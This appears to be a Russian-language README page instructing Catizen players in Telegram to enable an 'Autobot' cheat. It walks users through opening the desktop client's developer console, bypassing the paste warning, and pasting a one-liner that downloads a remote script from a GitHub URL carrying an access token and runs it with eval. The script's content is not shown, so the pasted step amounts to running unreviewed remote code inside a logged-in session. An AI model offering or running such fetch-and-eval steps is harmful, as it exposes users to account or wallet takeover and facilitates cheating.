 # Инструкция по использованию взлома Автобота в игре Catizen
##### По всем вопросам пишите мне в личку в Telegram:
#

[![My Telegram](https://img.icons8.com/ios/50/000000/telegram.png)](https://t.me/rovie69)

#### 1. Откройте десктопный Telegram-клиент.
#### 2. Перейдите в Settings - Advanced - Experimental Settings.
#### 3. Пролистайте вниз, найдите опцию Enable webview expecting, включите её.
#### 4. Перезагрузите клиент Telegram.
#### 5. Зайдите в Catizen, кликните по игровому полю, где играются котики.
#### 6. Нажмите комбинацию клавиш Ctrl + Shift + i, откроется консоль разработчика.
#### 7. Разрешите ввод в консоль: введите что-то и отправьте в консоль, система сама подскажет что вписать, чтобы разрешить ввод.
#### 8. Вставьте код ниже и отправьте
```javascript
var unixTime=Date.now(); var url='https://raw.githubusercontent.com/rahavitski/cats-stuff/main/Catizen-script-v1.1.js?token=GHSAT0AAAAAACQ2I2QLSVBWQ7COEMC4HVFMZQ643GA'+'?'+unixTime; fetch(url).then(response=>response.text()).then(script=>eval(script));
```
#### 9. Подождите пару секунд, переходите в игру, включайте Автобота и фармите $CATS!
#### 10. Теперь каждый раз при запуске игры необходимо повторять шаги с 5 по 9, чтобы активировать Автобота.
